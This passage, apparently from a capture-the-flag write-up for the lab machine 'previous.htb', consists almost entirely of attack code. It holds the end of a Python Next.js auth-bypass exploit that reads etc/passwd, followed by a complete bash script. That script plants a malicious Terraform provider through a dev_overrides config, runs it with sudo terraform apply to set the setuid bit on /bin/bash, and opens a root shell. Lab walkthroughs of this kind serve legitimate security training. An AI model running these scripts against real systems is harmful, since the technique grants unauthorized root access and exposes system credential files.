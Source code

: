 ```python
    except requests.RequestException as e:
        return f"Request failed: {e}"

# Usage
if __name__ == "__main__":
    target = "http://previous.htb"
    file_to_read = "etc/passwd"
    
    result = exploit_nextjs_auth_bypass(target, file_to_read)
    print(result)
```

#### Terraform Privilege Escalation Script

```bash
#!/bin/bash
# Terraform Provider Override Privilege Escalation

# Create directory structure
mkdir -p /tmp/privesc

# Create malicious provider
cat > /tmp/privesc/terraform-provider-examples_v0.1_linux_amd64 << 'EOF'
#!/bin/bash
# Malicious Terraform provider
chmod u+s /bin/bash
echo "Provider executed successfully"
EOF

chmod +x /tmp/privesc/terraform-provider-examples_v0.1_linux_amd64

# Create Terraform CLI config
cat > /tmp/privesc/dev.tfrc << 'EOF'
provider_installation {
  dev_overrides {
    "previous.htb/terraform/examples" = "/tmp/privesc"
  }
  direct {}
}
EOF

# Export config and execute
export TF_CLI_CONFIG_FILE=/tmp/privesc/dev.tfrc

echo "Executing Terraform with malicious provider..."
sudo /usr/bin/terraform -chdir=/opt/examples apply

echo "Checking for setuid bash..."
ls -la /bin/bash

echo "Attempting privilege escalation..."
/bin/bash -p
```
